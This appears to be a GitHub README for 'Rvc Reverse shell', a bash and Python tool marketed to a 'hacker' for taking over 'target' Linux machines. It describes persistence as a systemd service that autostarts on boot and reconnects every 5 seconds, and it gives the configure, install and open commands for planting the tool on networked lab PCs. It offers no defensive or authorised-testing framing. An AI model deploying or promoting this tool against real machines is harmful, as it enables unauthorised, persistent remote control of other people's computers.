 # Rvc Reverse shell

A script for creating a everse shell tunnel for linux servers 
Not actual rsh that uses RCE for injecting the RSH vulnerability.

![demo image](demo.jpg)

## Features

1) Complete control of remote shell including ctrl+.. signals.
2) Supports interaction with text editors like nano, vim, emacs on remote shell as well !!
3) Auto tab completion supported.
4) Ansi color output and characters supported.
5) Dynamic communiation with the launched command.
6) Install and uninstall as a systemd service on target with autostart on boot.
7) Target RSH client always tries every 5 seconds to reconnect to the hacker server.
8) Handles ip address and port number things by itself. Automatically gets the hacker ip address
9) A connection is recognized by target pc id which we would assign, Just to mention the pc id.
10) Less bandwidth consumption and never hangs up.

## Getting Started

These instructions will get you a copy of the project up and running on your local machine for development and testing purposes. See deployment for notes on how to deploy the project on a live system.

### Prerequisites

This script was tested on Ubuntu 18.04 LTS and Kali Linux 2019.3
However this script needs some basic bash primitives in a normal linux distribution.

Server side:: Target side (acting as reverse Client)
1) python (2 or 3)
2) stty (for setting terminal window)
3) systemctl service support (for installation and autostart)

Client side:: Hacker side (acting as reverse Server)
1) python (2 or 3)
2) stty (for getting hacker terminal sizes)
3) awk interpreter and hostname utility

## Deployment

The following steps will guide you setting up a Reverse Shell between two pcs in same network

1) On hacker terminal run
```
./rvc-rsh configure
```
to set the reverse shell to connect to the hacker ip address 
2) Copy this file on Target pc and either install (run as root) or expose its terminal to hacker pc. Run
```
./rvc-rsh install (pc id)
or
./rvc-rsh expose (pc id)
```
Generally in computer labs connected with LAN the computers are labelled as pc0 pc1 pc2 etc..
this pc id refers to same kind of number through which you will identify which shell to recieve connection from.
If in case you have multiple rsh clients waiting for you on network.
In this script a base port (1234) is assigned and communication for a pc id x will occur through port no (1234 + x)
to distinguish between multiple rsh sessions on same network if they exist.
Just remember for now the script supports only one rsh client install per target pc if you want to.
3) on hacker terminal to open a client bearing some (pc id) run
```
./rvc-rsh open (pc id)
```
This will establish a TCP connection between the hacker as a server shell and the site as the client shell.
And MAGIC !! you will entirely get the remote console with all above mentioned features !!

## Author

* **Rajas Chavadekar** 

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details


